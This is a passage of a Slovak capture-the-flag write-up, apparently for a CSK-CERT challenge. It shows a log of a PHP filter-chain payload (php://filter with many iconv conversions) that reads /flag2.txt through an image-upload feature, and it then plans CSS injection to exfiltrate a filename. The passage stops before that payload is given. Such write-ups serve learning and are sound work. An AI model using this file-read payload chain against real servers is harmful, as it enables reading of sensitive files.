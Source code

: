 ```log
Downloading image from php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/flag2.txt
imageData = GIF89a$)CSK-CERT{i_l0v3_f1lt3r5_4nd_50_d03s_php}@CÐи �� = =@CÐи �� = =@
Image size: 96 bytes
imageInfo = Array
(
    [0] => 9243
    [1] => 17193
    [2] => 1
    [3] => width="9243" height="17193"
    [channels] => 3
    [mime] => image/gif
)

extension = gif
hash = ceabd9a3ca77eb8bdb82ded8354d16d8
filename = ceabd9a3ca77eb8bdb82ded8354d16d8.gif
filepath = /var/www/html/classes/../uploads/temp/ceabd9a3ca77eb8bdb82ded8354d16d8.gif
Returning path: temp/ceabd9a3ca77eb8bdb82ded8354d16d8.gif
hostedFilename = temp/ceabd9a3ca77eb8bdb82ded8354d16d8.gif
return = <img src=" . 'uploads/' . temp/ceabd9a3ca77eb8bdb82ded8354d16d8.gif . ">;
```

Image validovalo a ako obsah obsahuje vlajku... Tu síce vidím md5 meno, ale k dispozícii na lokálne testovanie máme inú vlajku, takže názov súboru reálne ešte nepoznáme... ako ale exfiltrovať názov?

Keď testujem ako admin, vidím, že stránka vygenerovala pre content takéto html

```html
<div class="post-content" style="font-size: 1.1rem; line-height: 1.8;" id="post-content">
<img src="uploads/temp/ceabd9a3ca77eb8bdb82ded8354d16d8.gif">
</div>
```

Ak by sme vložili style a cez css siblinga aplikovali pravidlo na zaklade ineho atrobútu, mohlo by to fungovať. Samozrejme do png pridáme class atribút

Ked zadám do príspevku

```
```
